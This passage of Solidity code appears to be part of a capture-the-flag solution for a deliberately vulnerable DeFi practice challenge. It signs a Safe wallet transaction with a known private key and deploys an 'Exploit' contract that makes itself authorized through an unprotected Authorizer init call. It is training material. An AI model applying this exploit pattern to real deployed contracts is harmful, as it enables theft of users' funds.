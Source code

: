 ```solidity
                )
            );
            bytes32 domainSeparator = keccak256(
                abi.encode(
                    0x47e79534a245952e8b16893a336b85a3d9ea9fa8c573f3d803afb92a79469218, // DOMAIN_SEPARATOR_TYPEHASH,
                    singletonCopy.getChainId(),
                    USER_DEPOSIT_ADDRESS
                )
            );
            // Step 4: Sign the transaction hash using the user's private key
            bytes32 txHash = keccak256(abi.encodePacked(bytes1(0x19), bytes1(0x01), domainSeparator, safeTxHash));
            (uint8 v, bytes32 r, bytes32 s) = vm.sign(userPrivateKey, txHash);
            signatures = abi.encodePacked(r, s, v);
        }
        //Step 5: Encode the execTransaction call data for later execution
        execData = abi.encodeWithSelector(
            singletonCopy.execTransaction.selector,
            to,
            value,
            data,
            operation,
            safeTxGas,
            baseGas,
            gasPrice,
            gasToken,
            refundReceiver,
            signatures
        );
    }
    // Step 6: Deploy the Safe and execute the exploit
    new Exploit(token, authorizer, walletDeployer, USER_DEPOSIT_ADDRESS, ward, initializer, nonce, execData);
}


contract Exploit {
    constructor(
        DamnValuableToken token, // The DVT token contract used for transferring tokens.
        AuthorizerUpgradeable authorizer, // The authorizer contract that allows initialization and authorization.
        WalletDeployer walletDeployer, // The wallet deployer contract for deploying a new Safe wallet.
        address safe, // The address of the Safe wallet.
        address ward, // The ward address that will receive funds (1 DVT token).
        bytes memory initializer, // The initializer data for setting up the Safe wallet during deployment.
        uint256 saltNonce, // The nonce used with CREATE2 to deploy the wallet.
        bytes memory txData // The transaction data that will be called on the Safe wallet after deployment.
    ) {
        // Create an array of one element for 'wards', which is this contract.
        address[] memory wards = new address[](1);
        address[] memory aims = new address[](1);

        // Set the 'ward' to this contract and the 'aim' to the Safe wallet address.
        wards[0] = address(this);
        aims[0] = safe;

        // Call the 'init' function on the Authorizer contract to set this contract as an authorized address.
```